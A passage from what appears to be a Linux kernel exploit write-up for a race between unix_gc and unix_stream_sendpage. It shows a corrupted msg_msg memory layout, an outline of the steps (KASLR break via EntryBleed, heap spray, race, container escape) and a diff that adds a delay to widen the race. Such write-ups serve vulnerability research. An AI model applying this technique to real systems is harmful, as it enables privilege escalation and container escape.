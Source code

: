 If we choose (0xffff8880082e2400+2-0x10) as our skb_frag_t, after return from function `__skb_fill_page_desc_noacc`, the above memory layout will become as follow
```
0xffff8880082e2380:     0xffff888008705080      0xffff888007ebf680 //m_list.next m_list.prev
0xffff8880082e2390:     0x000000000000008b      0x0000000000000050 //m_type m_ts
0xffff8880082e23a0:     0x0000000000000000      0x0000000000000000 //next security
0xffff8880082e23b0:     0x0000000000000408      0x0000000000000000 //data
0xffff8880082e23c0:     0x0000001000000000      0x0000000000000000
0xffff8880082e23d0:     0x0000000000000000      0x0000000000000000
0xffff8880082e23e0:     0x0000000000000000      0x0000000000000000
0xffff8880082e23f0:     0xea00001223400000      0x000000001000ffff
0xffff8880082e2400:     0xffff888008700000      0xffff888007ebf800 //m_list.next m_list.prev
0xffff8880082e2410:     0x000000000000008b      0x0000000000000050 //m_type m_ts
0xffff8880082e2420:     0x0000000000000000      0x0000000000000000 //next security
0xffff8880082e2430:     0x0000000000000412      0x0000000000000000 //data
0xffff8880082e2440:     0x0000001000000000      0x0000000000000000
0xffff8880082e2450:     0x0000000000000000      0x0000000000000000
0xffff8880082e2460:     0x0000000000000000      0x0000000000000000
0xffff8880082e2470:     0x0000000000000000      0x0000000000000000
```

m_list.next first two byte has been overwrite to null byte and make it point to another msg_msg.
With two msg_msg->m_list.next point to same address, we can use known exploit tech to achieve container escape.


# Exploit Tech Detail

The exploit is consist in the following steps
* EntryBleed: Breaking KASLR under KPTI with Prefetch (CVE-2022-4543)
* Prepare timerfd
* Spray large amount msg_msg
* Prepare refcount circle to make unix_gc free skbs
* Race between unix_gc with unix_stream_sendpage
* msg_msg exploit technique
* Achieve container escape.

The most unreliable and hard to success is at `Race between unix_gc with unix_stream_sendpage`.
Because lack of the information to set timeout at right place in nanoseconds, we tried value from 200 ~ 4096.
Depend on how lucky we are we might be hit the right place within few minutes or keep fail after half hour.
To trigger vulns more easily, we recommend to patch the following code to linux kernel.

```diff
diff --git a/net/unix/af_unix.c b/net/unix/af_unix.c
index 5b19b6c53..3bdc0aa94 100644
--- a/net/unix/af_unix.c
+++ b/net/unix/af_unix.c
@@ -2347,7 +2347,7 @@ static ssize_t unix_stream_sendpage(struct socket *socket, struct page *page,
                consume_skb(newskb);
                newskb = NULL;
        }
-
+       mdelay(10);
        if (skb_append_pagefrags(skb, page, offset, size)) {
                tail = skb;
                goto alloc_skb;
```
